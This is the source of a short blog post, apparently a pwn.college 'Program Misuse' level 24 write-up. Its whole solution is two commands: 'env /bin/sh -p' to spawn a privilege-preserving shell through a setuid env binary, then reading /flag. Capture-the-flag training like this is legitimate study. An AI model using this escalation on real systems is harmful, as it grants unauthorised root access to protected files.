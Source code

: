```yaml
---
layout: post
title: "Level 24 - Program Misuse"
date: 2024-5-6 12:00:00 -0000
categories: [pwn college, program misuse]
---
```


```bash
env /bin/sh -p
cat /flag
```